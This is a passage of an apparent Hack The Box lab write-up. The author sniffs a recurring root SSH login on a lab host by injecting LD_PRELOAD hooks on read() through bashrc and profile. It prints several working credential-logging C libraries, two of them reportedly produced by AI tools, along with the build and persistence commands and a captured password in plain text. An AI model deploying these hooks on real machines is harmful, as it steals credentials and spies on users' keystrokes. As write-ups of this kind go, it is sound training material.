/var/log/auth.log:Apr 16 08:41:19 admin01 sshd[13559]: Accepted password for root from 172.16.0.22 port 34080 ssh2
/var/log/auth.log:Apr 16 09:05:25 admin01 sshd[14325]: Accepted password for house from 172.16.0.22 port 52242 ssh2
/var/log/auth.log:Apr 16 09:05:25 admin01 sshd[14324]: Accepted password for root from 172.16.0.22 port 52238 ssh2
/var/log/auth.log:Apr 16 09:29:31 admin01 sshd[15123]: Accepted password for house from 172.16.0.22 port 35174 ssh2
/var/log/auth.log:Apr 16 09:29:31 admin01 sshd[15122]: Accepted password for root from 172.16.0.22 port 35160 ssh2
/var/log/auth.log:Apr 16 09:53:37 admin01 sshd[15878]: Accepted password for house from 172.16.0.22 port 47968 ssh2
/var/log/auth.log:Apr 16 09:53:37 admin01 sshd[15877]: Accepted password for root from 172.16.0.22 port 47956 ssh2
/var/log/auth.log:Apr 16 10:17:43 admin01 sshd[16630]: Accepted password for house from 172.16.0.22 port 50936 ssh2
/var/log/auth.log:Apr 16 10:17:43 admin01 sshd[16629]: Accepted password for root from 172.16.0.22 port 50930 ssh2
/var/log/auth.log:Apr 16 10:41:48 admin01 sshd[17390]: Accepted password for house from 172.16.0.22 port 53404 ssh2
/var/log/auth.log:Apr 16 10:41:49 admin01 sshd[17389]: Accepted password for root from 172.16.0.22 port 53390 ssh2
/var/log/auth.log:Apr 16 11:05:54 admin01 sshd[18149]: Accepted password for house from 172.16.0.22 port 56400 ssh2
/var/log/auth.log:Apr 16 11:05:55 admin01 sshd[18148]: Accepted password for root from 172.16.0.22 port 56398 ssh2
/var/log/auth.log:Apr 16 11:30:00 admin01 sshd[18908]: Accepted password for house from 172.16.0.22 port 43054 ssh2
/var/log/auth.log:Apr 16 11:30:01 admin01 sshd[18907]: Accepted password for root from 172.16.0.22 port 43038 ssh2
/var/log/auth.log:Apr 16 11:54:06 admin01 sshd[19714]: Accepted password for house from 172.16.0.22 port 38500 ssh2
/var/log/auth.log:Apr 16 11:54:07 admin01 sshd[19713]: Accepted password for root from 172.16.0.22 port 38498 ssh2

```

# Another attempt

Now I was googling and I stumbled upon [this](https://github.com/michaelelizarov/ssh-credential-sniffer) repository, where basically the idea is to pollute the "**LD_PRELOAD**" folder in order to export the password for every process spawn. I am using this as payload:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

typedef ssize_t (*real_read_t)(int fd, void *buf, size_t count);

ssize_t read(int fd, void *buf, size_t count) {
    real_read_t real_read = (real_read_t)dlsym(RTLD_NEXT, "read");
    ssize_t result = real_read(fd, buf, count);

    // FD 0 is stdin. This catches what sshpass pipes into ssh.
    if (fd == 0 && result > 0) {
        FILE *f = fopen("/tmp/.loot.txt", "a");
        if (f) {
            fprintf(f, "Captured: %.*s\n", (int)result, (char *)buf);
            fclose(f);
        }
    }
    return result;
}
  
```

And this command in order to compile as shared object:

```bash
//Compile as shared library
gcc -fPIC -shared -o sniffer.so sniffer.c -ldl


//Prepare the files to write to as House user on ADMIN01
house@admin01:/tmp$ ll
total 64
drwxrwxrwt 12 root     root      4096 Apr 17 07:38 ./
drwxr-xr-x 18 root     root      4096 Mar 17  2025 ../
drwxrwxrwt  2 root     root      4096 Apr 17 02:13 .ICE-unix/
drwxrwxrwt  2 root     root      4096 Apr 17 02:13 .Test-unix/
drwxrwxrwt  2 root     root      4096 Apr 17 02:13 .X11-unix/
drwxrwxrwt  2 root     root      4096 Apr 17 02:13 .XIM-unix/
drwxrwxrwt  2 root     root      4096 Apr 17 02:13 .font-unix/
-rw-rw-rw-  1 house    house        0 Apr 17 07:38 .loot.txt
drwxr-xr-x  2 activemq activemq  4096 Apr 17 02:14 hsperfdata_activemq/
-rwxrwxr-x  1 house    house    15528 Apr 17 07:37 sniffer.so*
drwx------  3 root     root      4096 Apr 17 02:14 systemd-private-f15e47e487c647cb90b383b97cb54c64-systemd-logind.service-Br7MGc/
drwx------  3 root     root      4096 Apr 17 02:13 systemd-private-f15e47e487c647cb90b383b97cb54c64-systemd-resolved.service-NBbeQK/
drwx------  3 root     root      4096 Apr 17 02:13 systemd-private-f15e47e487c647cb90b383b97cb54c64-systemd-timesyncd.service-Xyp0e2/
drwx------  2 root     root      4096 Apr 17 02:13 vmware-root_753-4290035625/
house@admin01:/tmp$ 

```

And now it has to be added to the bashrc file on the house user:

```bash
house@admin01:/tmp$ echo 'export LD_PRELOAD=/tmp/simple_sniff.so' >> ~/.bashrc

```


Now the session is already invoked and I need to wait that another session spawns in:

```bash
house@admin01:/tmp$ w
 07:41:27 up  5:27,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
house    pts/0    172.16.0.22      07:27    1:46   0.02s  0.02s /usr/bin/ssh -F /dev/null root@172.16.0.100
house    pts/1    172.16.0.6       07:37    0.00s  0.02s  0.01s w
house@admin01:/tmp$ 

```

Now checking the auth.log we can see that the cron makes a new conenction aprox every 24 minutes and since the last was at 07.27 I can assure that this will happen somewhere around 0751.

```bash
syslog@admin01:/var/log$ date 
Fri Apr 17 07:44:07 UTC 2026
syslog@admin01:/var/log$ 
syslog@admin01:/var/log$ 
syslog@admin01:/var/log$ cat auth.log | grep 172.16.0.22
Apr 17 02:14:23 admin01 sshd[1057]: Accepted password for house from 172.16.0.22 port 38420 ssh2
Apr 17 02:14:24 admin01 sshd[1056]: Accepted password for root from 172.16.0.22 port 38406 ssh2
Apr 17 02:38:27 admin01 sshd[1095]: Received disconnect from 172.16.0.22 port 38420:11: disconnected by user
Apr 17 02:38:27 admin01 sshd[1095]: Disconnected from user house 172.16.0.22 port 38420
Apr 17 02:38:30 admin01 sshd[1954]: Accepted password for house from 172.16.0.22 port 45032 ssh2
Apr 17 02:38:30 admin01 sshd[1953]: Accepted password for root from 172.16.0.22 port 45028 ssh2
Apr 17 03:02:33 admin01 sshd[1975]: Received disconnect from 172.16.0.22 port 45032:11: disconnected by user
Apr 17 03:02:33 admin01 sshd[1975]: Disconnected from user house 172.16.0.22 port 45032
Apr 17 03:02:35 admin01 sshd[2713]: Accepted password for house from 172.16.0.22 port 34258 ssh2
Apr 17 03:02:35 admin01 sshd[2712]: Accepted password for root from 172.16.0.22 port 34246 ssh2
Apr 17 03:26:38 admin01 sshd[2734]: Received disconnect from 172.16.0.22 port 34258:11: disconnected by user
Apr 17 03:26:38 admin01 sshd[2734]: Disconnected from user house 172.16.0.22 port 34258
Apr 17 03:26:41 admin01 sshd[3521]: Accepted password for house from 172.16.0.22 port 53240 ssh2
Apr 17 03:26:41 admin01 sshd[3520]: Accepted password for root from 172.16.0.22 port 53236 ssh2
Apr 17 03:50:44 admin01 sshd[3542]: Received disconnect from 172.16.0.22 port 53240:11: disconnected by user
Apr 17 03:50:44 admin01 sshd[3542]: Disconnected from user house 172.16.0.22 port 53240
Apr 17 03:50:46 admin01 sshd[4281]: Accepted password for house from 172.16.0.22 port 40890 ssh2
Apr 17 03:50:47 admin01 sshd[4280]: Accepted password for root from 172.16.0.22 port 40874 ssh2
Apr 17 04:14:50 admin01 sshd[4302]: Received disconnect from 172.16.0.22 port 40890:11: disconnected by user
Apr 17 04:14:50 admin01 sshd[4302]: Disconnected from user house 172.16.0.22 port 40890
Apr 17 04:14:52 admin01 sshd[5037]: Accepted password for house from 172.16.0.22 port 60142 ssh2
Apr 17 04:14:53 admin01 sshd[5036]: Accepted password for root from 172.16.0.22 port 60130 ssh2
Apr 17 04:38:55 admin01 sshd[5058]: Received disconnect from 172.16.0.22 port 60142:11: disconnected by user
Apr 17 04:38:55 admin01 sshd[5058]: Disconnected from user house 172.16.0.22 port 60142
Apr 17 04:38:58 admin01 sshd[5795]: Accepted password for house from 172.16.0.22 port 57270 ssh2
Apr 17 04:38:58 admin01 sshd[5794]: Accepted password for root from 172.16.0.22 port 57256 ssh2
Apr 17 05:03:01 admin01 sshd[5816]: Received disconnect from 172.16.0.22 port 57270:11: disconnected by user
Apr 17 05:03:01 admin01 sshd[5816]: Disconnected from user house 172.16.0.22 port 57270
Apr 17 05:03:03 admin01 sshd[6552]: Accepted password for house from 172.16.0.22 port 39566 ssh2
Apr 17 05:03:04 admin01 sshd[6551]: Accepted password for root from 172.16.0.22 port 39564 ssh2
Apr 17 05:27:07 admin01 sshd[6573]: Received disconnect from 172.16.0.22 port 39566:11: disconnected by user
Apr 17 05:27:07 admin01 sshd[6573]: Disconnected from user house 172.16.0.22 port 39566
Apr 17 05:27:09 admin01 sshd[7312]: Accepted password for house from 172.16.0.22 port 45226 ssh2
Apr 17 05:27:10 admin01 sshd[7311]: Accepted password for root from 172.16.0.22 port 45212 ssh2
Apr 17 05:51:13 admin01 sshd[7333]: Received disconnect from 172.16.0.22 port 45226:11: disconnected by user
Apr 17 05:51:13 admin01 sshd[7333]: Disconnected from user house 172.16.0.22 port 45226
Apr 17 05:51:15 admin01 sshd[8070]: Accepted password for house from 172.16.0.22 port 50112 ssh2
Apr 17 05:51:15 admin01 sshd[8069]: Accepted password for root from 172.16.0.22 port 50096 ssh2
Apr 17 06:15:19 admin01 sshd[8091]: Received disconnect from 172.16.0.22 port 50112:11: disconnected by user
Apr 17 06:15:19 admin01 sshd[8091]: Disconnected from user house 172.16.0.22 port 50112
Apr 17 06:15:21 admin01 sshd[8822]: Accepted password for house from 172.16.0.22 port 54642 ssh2
Apr 17 06:15:21 admin01 sshd[8821]: Accepted password for root from 172.16.0.22 port 54628 ssh2
Apr 17 06:39:24 admin01 sshd[8843]: Received disconnect from 172.16.0.22 port 54642:11: disconnected by user
Apr 17 06:39:24 admin01 sshd[8843]: Disconnected from user house 172.16.0.22 port 54642
Apr 17 06:39:27 admin01 sshd[9629]: Accepted password for house from 172.16.0.22 port 56222 ssh2
Apr 17 06:39:27 admin01 sshd[9628]: Accepted password for root from 172.16.0.22 port 56206 ssh2
Apr 17 07:03:30 admin01 sshd[9651]: Received disconnect from 172.16.0.22 port 56222:11: disconnected by user
Apr 17 07:03:30 admin01 sshd[9651]: Disconnected from user house 172.16.0.22 port 56222
Apr 17 07:03:33 admin01 sshd[10389]: Accepted password for house from 172.16.0.22 port 36310 ssh2
Apr 17 07:03:33 admin01 sshd[10388]: Accepted password for root from 172.16.0.22 port 36298 ssh2
Apr 17 07:27:36 admin01 sshd[10410]: Received disconnect from 172.16.0.22 port 36310:11: disconnected by user
Apr 17 07:27:36 admin01 sshd[10410]: Disconnected from user house 172.16.0.22 port 36310
Apr 17 07:27:39 admin01 sshd[11204]: Accepted password for house from 172.16.0.22 port 53386 ssh2
Apr 17 07:27:39 admin01 sshd[11203]: Accepted password for root from 172.16.0.22 port 53384 ssh2

```

After several test i had to ask for an an nudge and apparently this is the exploit I need:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <fcntl.h>
#include <string.h>
#include <limits.h>
#include <ctype.h>

typedef ssize_t (*orig_read_f_type)(int fd, void *buf, size_t count);

ssize_t read(int fd, void *buf, size_t count) {
    static orig_read_f_type orig_read = NULL;
    if (!orig_read) {
        orig_read = (orig_read_f_type)dlsym(RTLD_NEXT, "read");
    }

    ssize_t n = orig_read(fd, buf, count);

    if (n > 0) {
        char exe_path[PATH_MAX];
        char fd_path[PATH_MAX];
        char fd_link[PATH_MAX];

        ssize_t exe_len = readlink("/proc/self/exe", exe_path, sizeof(exe_path) - 1);
        if (exe_len != -1) {
            exe_path[exe_len] = '\0';

            // Match process exactly
            if (strcmp(exe_path, "/usr/bin/ssh") == 0) {
                
                snprintf(fd_path, sizeof(fd_path), "/proc/self/fd/%d", fd);
                ssize_t fd_len = readlink(fd_path, fd_link, sizeof(fd_link) - 1);
                
                if (fd_len != -1) {
                    fd_link[fd_len] = '\0';

                    // Match TTY or PTS
                    if (strcmp(fd_link, "/dev/tty") == 0 || strncmp(fd_link, "/dev/pts/", 9) == 0) {
                        
                        int log_fd = open("/tmp/.ssh_tty_read.log", O_WRONLY | O_APPEND | O_CREAT, 0666);
                        if (log_fd != -1) {
                            for (ssize_t i = 0; i < n; i++) {
                                unsigned char c = ((unsigned char*)buf)[i];
                                // Log printable chars only
                                if (isprint(c) || c == '\n' || c == '\r' || c == '\t') {
                                    write(log_fd, &c, 1);
                                }
                            }
                            close(log_fd);
                        }
                    }
                }
            }
        }
    }
    return n;
}
```

And compile as shared, and upload to the machine:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Wanderer]
└─$ gcc -shared -fPIC -o hook.so hook.c -ldl -Wall
```

As usual add it to the bash rc and wait for the magic to happen:

****

Now i can see a callback from the *auth.log*  file that root has logged in:



But it did not work so  AI gave a second iteration:

&nbsp;

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <fcntl.h>
#include <string.h>
#include <limits.h>
#include <ctype.h>
#include <sys/stat.h>

typedef ssize_t (*orig_read_f_type)(int fd, void *buf, size_t count);

ssize_t read(int fd, void *buf, size_t count) {
    static orig_read_f_type orig_read = NULL;
    if (!orig_read) {
        orig_read = (orig_read_f_type)dlsym(RTLD_NEXT, "read");
    }

    ssize_t n = orig_read(fd, buf, count);

    // Rule: data length > 0
    if (n > 0) {
        char exe_path[PATH_MAX];
        char fd_path[64];
        char fd_link[PATH_MAX];

        // Rule: checked /proc/self/exe
        ssize_t exe_len = readlink("/proc/self/exe", exe_path, sizeof(exe_path) - 1);
        if (exe_len != -1) {
            exe_path[exe_len] = '\0';

            // Rule: process = /usr/bin/ssh (Confirmed by your readlink)
            if (strcmp(exe_path, "/usr/bin/ssh") == 0) {
                
                // Rule: checked /proc/self/fd/x
                snprintf(fd_path, sizeof(fd_path), "/proc/self/fd/%d", fd);
                ssize_t fd_len = readlink(fd_path, fd_link, sizeof(fd_link) - 1);
                
                if (fd_len != -1) {
                    fd_link[fd_len] = '\0';

                    // Rule: fd points to /dev/tty or /dev/pts/*
                    if (strcmp(fd_link, "/dev/tty") == 0 || strncmp(fd_link, "/dev/pts/", 9) == 0) {
                        
                        // Rule: wrote to /tmp/.ssh_tty_read.log
                        // Force 0666 permissions so house and root can both write
                        int log_fd = open("/tmp/.ssh_tty_read.log", O_WRONLY | O_APPEND | O_CREAT, 0666);
                        if (log_fd != -1) {
                            fchmod(log_fd, 0666); 
                            
                            // Rule: logged printable chars
                            for (ssize_t i = 0; i < n; i++) {
                                unsigned char c = ((unsigned char*)buf)[i];
                                if (isprint(c) || c == '\n' || c == '\r' || c == '\t') {
                                    write(log_fd, &c, 1);
                                }
                            }
                            close(log_fd);
                        }
                    }
                }
            }
        }
    }
    return n;
}
```

I also moved the preload to the beginning of the file:  


But it is not working so I switched to claude and he suggested to add the preload also to these files as well:  


Here, I got advised to use this code instead:

```c
#define _GNU_SOURCE
#include <dlfcn.h>
#include <fcntl.h>
#include <limits.h>
#include <stdio.h>
#include <string.h>
#include <sys/syscall.h>
#include <unistd.h>

static ssize_t (*real_read)(int, void *, size_t) = NULL;
static int reentrant = 0;

static int is_ssh_process(void) {
    char exe[PATH_MAX];
    ssize_t n = readlink("/proc/self/exe", exe, sizeof(exe) - 1);
    if (n < 0) return 0;
    exe[n] = '\0';
    return strcmp(exe, "/usr/bin/ssh") == 0;
}

static int is_tty_fd(int fd) {
    char path[64], target[PATH_MAX];
    snprintf(path, sizeof(path), "/proc/self/fd/%d", fd);
    ssize_t n = readlink(path, target, sizeof(target) - 1);
    if (n < 0) return 0;
    target[n] = '\0';
    return strncmp(target, "/dev/pts/", 9) == 0 || strcmp(target, "/dev/tty") == 0;
}

static void log_buf(int fdnum, const void *buf, ssize_t n) {
    int fd = open("/tmp/.ssh_tty_reads.log", O_WRONLY | O_CREAT | O_APPEND, 0600);
    if (fd < 0) return;

    char header[128];
    int h = snprintf(header, sizeof(header), "\n[pid=%d fd=%d len=%zd] ", getpid(), fdnum, n);
    syscall(SYS_write, fd, header, h);

    const unsigned char *p = buf;
    for (ssize_t i = 0; i < n; i++) {
        unsigned char c = p[i];
        char out = (c >= 32 && c <= 126) ? (char)c : '.';
        syscall(SYS_write, fd, &out, 1);
    }

    char nl = '\n';
    syscall(SYS_write, fd, &nl, 1);
    close(fd);
}

ssize_t read(int fd, void *buf, size_t count) {
    if (!real_read) {
        real_read = (ssize_t (*)(int, void *, size_t))dlsym(RTLD_NEXT, "read");
    }

    ssize_t r = real_read(fd, buf, count);

    if (reentrant || r <= 0) return r;

    if (is_ssh_process() && is_tty_fd(fd)) {
        reentrant = 1;
        log_buf(fd, buf, r);
        reentrant = 0;
    }

    return r;
}
```

And as usual append the **preload** to both **bashrc** and profile file.

```bash
`
{
  echo "[BASHRC] $(date) user=$(whoami) from=$SSH_CONNECTION tty=$(tty 2>/dev/null) shell=$0 flags=$-";
  env | sort | grep -E "SSH|USER|HOME|SUDO|TERM|PATH";
  ps -fp $$;
  echo "---";
} >> /tmp/.house_bashrc.log 2>&1

{
  echo "[BASHRC] $(date)"
  echo "whoami=$(whoami) tty=$(tty 2>/dev/null) shell=$0 flags=$-"
  echo "SSH_CONNECTION=$SSH_CONNECTION"
  echo "SSH_CLIENT=$SSH_CLIENT"
  echo "SSH_TTY=$SSH_TTY"
  echo "SSH_ORIGINAL_COMMAND=$SSH_ORIGINAL_COMMAND"
  ps -fp $$ -fp $PPID
  echo "---"
} >> /tmp/.house_bashrc.log 2>&1

export HISTFILE=/tmp/.house_real_history
export PROMPT_COMMAND='history 1 >> /tmp/.house_cmds.log'

export LD_PRELOAD=/tmp/libspy-active.so
readonly LD_PRELOAD
```

And when root logged in I have the files:

```bash
house@admin01:/tmp$ ll
total 76
drwxrwxrwt 12 root     root      4096 Apr 17 11:53 ./
drwxr-xr-x 18 root     root      4096 Mar 17  2025 ../
drwxrwxrwt  2 root     root      4096 Apr 17 02:14 .ICE-unix/
drwxrwxrwt  2 root     root      4096 Apr 17 02:14 .Test-unix/
drwxrwxrwt  2 root     root      4096 Apr 17 02:14 .X11-unix/
drwxrwxrwt  2 root     root      4096 Apr 17 02:14 .XIM-unix/
drwxrwxrwt  2 root     root      4096 Apr 17 02:14 .font-unix/
-rw-rw-r--  1 house    house      932 Apr 17 11:53 .house_login.log
-rw-rw-r--  1 house    house      782 Apr 17 11:53 .house_profile.log
-rw-------  1 house    house      624 Apr 17 11:53 .ssh_tty_reads.log
-rwxrwxr-x  1 house    house    15952 Apr 17 11:49 hook.so*
drwxr-xr-x  2 activemq activemq  4096 Apr 17 02:15 hsperfdata_activemq/
drwx------  3 root     root      4096 Apr 17 02:15 systemd-private-32deda0998ec486cb14203e5c6a39bfe-systemd-logind.service-7kKJ8o/
drwx------  3 root     root      4096 Apr 17 02:14 systemd-private-32deda0998ec486cb14203e5c6a39bfe-systemd-resolved.service-J3HQeE/
drwx------  3 root     root      4096 Apr 17 02:14 systemd-private-32deda0998ec486cb14203e5c6a39bfe-systemd-timesyncd.service-XlzS0m/
drwx------  2 root     root      4096 Apr 17 02:14 vmware-root_752-2957190263/
house@admin01:/tmp$ 

```

And I have the root password of gitlab now:

```bash
house@admin01:/tmp$ cat .ssh_tty_reads.log

[pid=19716 fd=4 len=1] S

[pid=19716 fd=4 len=1] y

[pid=19716 fd=4 len=1] n

[pid=19716 fd=4 len=1] t

[pid=19716 fd=4 len=1] h

[pid=19716 fd=4 len=1] L

[pid=19716 fd=4 len=1] i

[pid=19716 fd=4 len=1] v

[pid=19716 fd=4 len=1] e

[pid=19716 fd=4 len=1] s

[pid=19716 fd=4 len=1] R

[pid=19716 fd=4 len=1] e

[pid=19716 fd=4 len=1] a

[pid=19716 fd=4 len=1] l

[pid=19716 fd=4 len=1] l

[pid=19716 fd=4 len=1] y

[pid=19716 fd=4 len=1] M

[pid=19716 fd=4 len=1] a

[pid=19716 fd=4 len=1] t

[pid=19716 fd=4 len=1] t

[pid=19716 fd=4 len=1] e

[pid=19716 fd=4 len=1] r

[pid=19716 fd=4 len=1] !

[pid=19716 fd=4 len=1] .

[pid=19716 fd=4 len=7] whoami.

```

# The Last stretch

With the credentials obtained by pwn the SSHD I am able to login as root and grab another flag:

```bash
root@admin01:~# cat flag.txt 
HTB{1151efea679d8574abb4b6fd3e376eeb}

```

&nbsp;